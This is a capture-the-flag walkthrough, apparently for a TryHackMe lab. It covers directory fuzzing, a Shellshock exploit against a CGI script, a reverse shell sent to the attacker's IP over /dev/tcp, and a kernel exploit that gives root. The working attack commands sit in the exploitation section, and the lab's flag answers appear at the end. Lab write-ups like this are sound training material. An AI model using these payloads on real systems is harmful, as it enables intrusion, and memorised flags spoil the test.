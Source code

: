 ```yaml
---
sticker: emoji//1f422
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![](../images/Pasted%20image%2020250429135028.png)

Let's fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/FUZZ" -ic -c -t 200 -e .php,.html,.git

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .git
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.html              [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 284ms]
.html                   [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 285ms]
                        [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 285ms]
uploads                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 162ms]
img                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 933ms]
cgi-bin                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 933ms]
admin                   [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
css                     [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 163ms]
js                      [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 160ms]
backup                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
secret                  [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
```


We got some interesting findings like `backup, secret` and `cgi-bin` let's check the first two:

![](../images/Pasted%20image%2020250429140047.png)

There's an `id_rsa` key on here, we don't have the username so, let's simply save it for now, let's proceed to `secret`:


![](../images/Pasted%20image%2020250429140228.png)

I tried getting some info with `steghide` but no luck, let's proceed then with `cgi-bin`, a `cgi-bin` directory often indicates the presence of legacy CGI (Common Gateway Interface) scripts, which can be vulnerable to attacks like **Shellshock**, **command injection**, or **path traversal** if poorly coded. 

Let's try `shellshock`, this vulnerability allows remote code execution without confirmation. A series of random characters, `() { :; }; ,` confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We need to fuzz the directory to find the script inside of it:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/cgi-bin/FUZZ" -ic -c -t 200 -e .cgi

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.214.142/cgi-bin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .cgi
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

test.cgi                [Status: 200, Size: 13, Words: 2, Lines: 2, Duration: 163ms]
```

There we go, let's proceed with exploitation.




# EXPLOITATION
---

With this, we can start the `shellshock` attack, let's test it:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'id'" http://10.10.214.142/cgi-bin/test.cgi
```

![](../images/Pasted%20image%2020250429140729.png)

There we go, `shellshock` attack works, let's get a shell then:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'sh -i >& /dev/tcp/IP/9001 0>&1'" http://10.10.214.142/cgi-bin/test.cgi
```


![](../images/Pasted%20image%2020250429140854.png)


We can proceed with privilege escalation.



# PRIVILEGE ESCALATION
---


Let's stabilize our shell first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](../images/Pasted%20image%2020250429141002.png)

Let's use `linpeas` to look for any `PE` vector:


![](../images/Pasted%20image%2020250429142332.png)

As seen, we are dealing with a `3.13.0-32-generic` Linux version, let's search information about how to escalate privileges in it:

![](../images/Pasted%20image%2020250429142418.png)

There's a `c` exploit we can get, once we get it on our victim machine, we can do the following:

```
gcc pe.c -o pe
```

If we try compiling it, we get this error:

```
www-data@ubuntu:/tmp$ gcc pe.c -o privesc
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

This is a problem in the `PATH`, we can fix it with:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now, let's compile again:

```
gcc pe.c -o pe
```

![](../images/Pasted%20image%2020250429143345.png)

There we go, we can simply run it now:

![](../images/Pasted%20image%2020250429143408.png)

We are root now and can finally read both flags:

```
# cat /home/ryan/user.txt
THM{Sh3llSh0ck_r0ckz}
```

```
# cat /root/root.txt
THM{g00d_j0b_0day_is_Pleased}
```

![](../images/Pasted%20image%2020250429143558.png)

